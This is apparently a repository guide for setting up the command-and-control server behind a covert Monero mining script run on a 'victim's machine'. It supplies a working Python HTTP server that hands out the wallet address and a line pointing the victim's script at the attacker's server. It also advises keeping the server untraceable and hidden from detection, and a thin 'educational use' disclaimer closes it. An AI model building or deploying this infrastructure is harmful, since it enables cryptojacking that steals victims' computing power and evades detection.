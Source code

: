 # Setting Up the Remote Server (Command-and-Control Server)

This guide will show you how to set up a simple HTTP server that will provide a Monero wallet address when contacted by the victim's machine running the crypto mining prank script.

### Prerequisites:
- A **Linux server** (or any server capable of running a web server).
- Basic knowledge of setting up a web server (e.g., Apache, Nginx, or a simple Python HTTP server).
- A **Monero wallet address** to be used by the miner.

### Steps to Set Up the Server:

1. **Set Up a Simple HTTP Server (Python Example)**:
   You can use a simple Python HTTP server to serve the wallet address.

   - Install Python if not already installed:
     ```bash
     sudo apt-get install python3
     ```

   - Create a directory to hold the server files:
     ```bash
     mkdir ~/wallet-server
     cd ~/wallet-server
     ```

   - Create a simple Python server script `wallet_server.py`:
     ```python
     # wallet_server.py
     from http.server import SimpleHTTPRequestHandler, HTTPServer

     class WalletServerHandler(SimpleHTTPRequestHandler):
         def do_GET(self):
             # Return your Monero wallet address as plain text
             if self.path == '/get_wallet_address':
                 self.send_response(200)
                 self.send_header('Content-type', 'text/plain')
                 self.end_headers()
                 self.wfile.write(b'random_wallet_address_1234567890')  # Replace with actual wallet address
             else:
                 self.send_response(404)
                 self.end_headers()

     # Run the server on port 8080
     server_address = ('', 8080)
     httpd = HTTPServer(server_address, WalletServerHandler)
     print('Starting server...')
     httpd.serve_forever()
     ```

2. **Run the Server:**
   - Run the Python script:
     ```bash
     python3 wallet_server.py
     ```

   - The server will now be running at `http://<your-server-ip>:8080/get_wallet_address`. This URL will return the wallet address (replace `random_wallet_address_1234567890` with your actual Monero wallet address).

3. **Optional: Set Up a Web Server**:
   If you want to use a full web server (e.g., Nginx or Apache), you can configure it to serve the wallet address from a file.

   - **Nginx Example**:
     - Create a file, e.g., `/var/www/html/wallet_address.txt`, and write your Monero wallet address into it.
     - Configure Nginx to serve this file at `/get_wallet_address`.

   - **Apache Example**:
     - Similar to Nginx, create a `wallet_address.txt` file and configure Apache to serve it.

4. **Update the Script URL**:
   - After setting up the server, update the URL in the victim's script to point to your server's address:
     ```bash
     wallet_server_url="http://<your-server-ip>:8080/get_wallet_address"
     ```

5. **Ensure Server Availability**:
   - Make sure that your server is accessible from the victim's machine. Ensure that there are no firewalls blocking the port you're using (e.g., port 8080).

### Important Notes:
- **Security**: This server should be running in a secure environment. Only authorized users should be able to access it.
- **Server Hosting**: If you're hosting the server on the internet, ensure it's not easily traceable and is kept secure to avoid detection.
- **Monitoring**: Regularly monitor your server for any unexpected traffic or potential misuse.

---

**Disclaimer**: This server is for educational use only and should only be used in controlled environments. Do not use this server for any malicious purposes.
